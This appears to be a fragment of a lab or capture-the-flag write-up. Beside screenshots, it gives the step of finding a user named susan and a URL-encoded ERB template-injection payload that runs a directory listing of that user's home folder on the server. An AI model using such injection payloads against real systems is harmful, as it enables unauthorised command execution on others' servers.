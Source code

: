 ![](./IMG/25.png)
> Find a potential user - susan

![](./IMG/26.png)


```
sdf%0A<%25%3d%20`ls%20-al%20%20/home/susan`%20%25>
```
